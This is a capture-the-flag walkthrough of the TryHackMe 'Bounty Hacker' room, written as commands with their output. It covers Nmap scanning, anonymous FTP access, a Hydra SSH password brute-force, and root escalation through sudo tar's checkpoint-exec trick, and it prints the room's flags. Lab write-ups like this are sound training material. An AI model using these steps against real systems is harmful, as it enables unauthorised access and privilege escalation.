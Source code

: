# Bounty-Hacker

## 🚀 Step by step, ooh, baby

### 📋 Pré-requisitos
- Nmap 7.93 (https://nmap.org)
- Hydra v9.4 (https://github.com/vanhauser-thc/thc-hydra)

### 🔧 Execução
```$ nmap -D RND:20 --open -sS -p- <ip>``` <br />
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:48 -03 <br />
Nmap scan report for <ip><br />
Host is up (0.23s latency).<br />
Not shown: 56227 filtered tcp ports (no-response), 9305 closed tcp ports (reset)<br />
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit<br />
PORT   STATE SERVICE<br />
21/tcp open  ftp<br />
22/tcp open  ssh<br />
80/tcp open  http<br />

```$ nmap --open -sV -p21,22,80 <ip>```<br />
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:58 -03<br />
Nmap scan report for <ip><br />
Host is up (0.22s latency).<br />

PORT   STATE SERVICE VERSION<br />
21/tcp open  ftp     vsftpd 3.0.3<br />
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)<br />
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))<br />
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel<br />

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .<br />
Nmap done: 1 IP address (1 host up) scanned in 13.96 seconds<br />

```$ ftp -p 21 <ip>```<br />
anonymous

```$ ls -lha```<br />
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .<br />
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..<br />
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt<br />
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt<br />

```$ get locks.txt```<br />
```$ get task.txt```<br />

```$ cat task.txt```<br />
1.) Protect Vicious.<br />
2.) Plan for Red Eye pickup on the moon.<br />
<br />
-lin<br />

```$ cat locks.txt```<br />
rEddrAGON<br />
ReDdr4g0nSynd!cat3<br />
Dr@gOn$yn9icat3<br />
...<br />

```$ hydra -l lin -P locks.txt <ip> ssh```<br />
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).<br />

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-14 22:04:34<br />
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4<br />
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task<br />
[DATA] attacking ssh://<ip>:22/<br />
[22][ssh] host: <ip>   login: lin   password: RedDr4gonSynd1cat3<br />
1 of 1 target successfully completed, 1 valid password found<br />
[WARNING] Writing restore file because 1 final worker threads did not complete until end.<br />
[ERROR] 1 target did not resolve or could not be connected<br />
[ERROR] 0 target did not complete<br />
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-14 22:04:40<br />

```$ ssh -p 22 lin@<ip>```<br />
RedDr4gonSynd1cat3

```$ ls -lha```<br />
total 12K
drwxr-xr-x  2 lin lin 4.0K Jun  7  2020 .<br />
drwxr-xr-x 19 lin lin 4.0K Jun  7  2020 ..<br />
-rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt<br />

```$ cat user.txt```<br />
THM{CR1M3_SyNd1C4T3}

```$ sudo -l```<br />
[sudo] password for lin: <br />
Matching Defaults entries for lin on bountyhacker:<br />
    env_reset, mail_badpass,<br />
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin<br />
<br />
User lin may run the following commands on bountyhacker:<br />
    (root) /bin/tar<br />

```$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```<br />
tar: Removing leading `/' from member names<br />

```$ whoami```<br />
root<br />

```$ ls -lha /root```<br />
total 40K<br />
drwx------  5 root root 4.0K Jun  7  2020 .<br />
drwxr-xr-x 24 root root 4.0K Jun  6  2020 ..<br />
-rw-------  1 root root 2.7K Jun  7  2020 .bash_history<br />
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc<br />
drwx------  2 root root 4.0K Feb 26  2019 .cache<br />
drwxr-xr-x  2 root root 4.0K Jun  7  2020 .nano<br />
-rw-r--r--  1 root root  148 Aug 17  2015 .profile<br />
-rw-r--r--  1 root root   19 Jun  7  2020 root.txt<br />
-rw-r--r--  1 root root   66 Jun  7  2020 .selected_editor<br />
drwx------  2 root root 4.0K Jun  7  2020 .ssh<br />
<br />
```$ cat /root/root.txt```<br />
THM{80UN7Y_h4cK3r}<br />

## 📌 Referências:
- https://tryhackme.com/room/cowboyhacker
- https://gtfobins.github.io/gtfobins/tar/
